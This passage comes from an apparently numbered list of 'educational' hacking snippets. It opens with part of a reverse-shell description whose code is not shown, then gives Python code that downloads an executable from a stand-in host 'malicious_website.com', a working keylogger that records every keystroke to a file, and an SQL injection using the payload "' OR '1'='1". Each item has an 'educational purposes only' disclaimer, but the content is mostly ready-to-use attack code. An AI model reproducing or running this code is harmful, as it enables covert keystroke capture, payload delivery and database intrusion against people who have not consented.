     **Description**: This code demonstrates a basic reverse shell, where the target machine connects back to an attacker's machine and executes commands received over the network. **Warning**: This is for educational purposes only. **Do not use this code maliciously** or without proper authorization. It’s meant to demonstrate how reverse shells work for learning and ethical hacking practice.

21. **Educational Example - Malicious File Download**:

    ```python
    >>> # For educational purposes only. Use responsibly.
    >>> import urllib.request
    >>> url = 'http://malicious_website.com/malicious_file.exe'  # Replace with the malicious URL
    >>> save_path = 'malicious_file.exe'
    >>> urllib.request.urlretrieve(url, save_path)
    ```

    **Description**: This code snippet shows how to download a file from a given URL. In a malicious context, this could be used to download harmful files. **Do not use this code for malicious purposes**. It is included here for educational purposes to understand how such scripts operate.

22. **Educational Example - Keylogger Code**:

    ```python
    >>> # For educational purposes only. Be cautious with such code.
    >>> from pynput import keyboard
    >>> 
    >>> def on_press(key):
    >>>     try:
    >>>         with open('keylog.txt', 'a') as f:
    >>>             f.write(f'{key.char}')
    >>>     except AttributeError:
    >>>         with open('keylog.txt', 'a') as f:
    >>>             f.write(f'{key}')
    >>> 
    >>> with keyboard.Listener(on_press=on_press) as listener:
    >>>     listener.join()
    ```

    **Description**: This code demonstrates a simple keylogger that records keystrokes to a file. **Warning**: This is for educational purposes only. **Do not use this code to infringe on others' privacy**. It’s meant to illustrate how keyloggers function for learning and ethical hacking practice.

23. **Educational Example - SQL Injection Simulation**:

    ```python
    >>> # For educational purposes only. Use responsibly.
    >>> import sqlite3
    >>> 
    >>> conn = sqlite3.connect(':memory:')
    >>> cursor = conn.cursor()
    >>> cursor.execute('CREATE TABLE users (username TEXT, password TEXT)')
    >>> cursor.execute('INSERT INTO users (username, password) VALUES (?, ?)', ('admin', 'admin123'))
    >>> 
    >>> user_input = "' OR '1'='1"
    >>> query = f"SELECT * FROM users WHERE username='{user_input}'"
    >>> cursor.execute(query)
    >>> results = cursor.fetchall()
    >>> print(results)
    ```
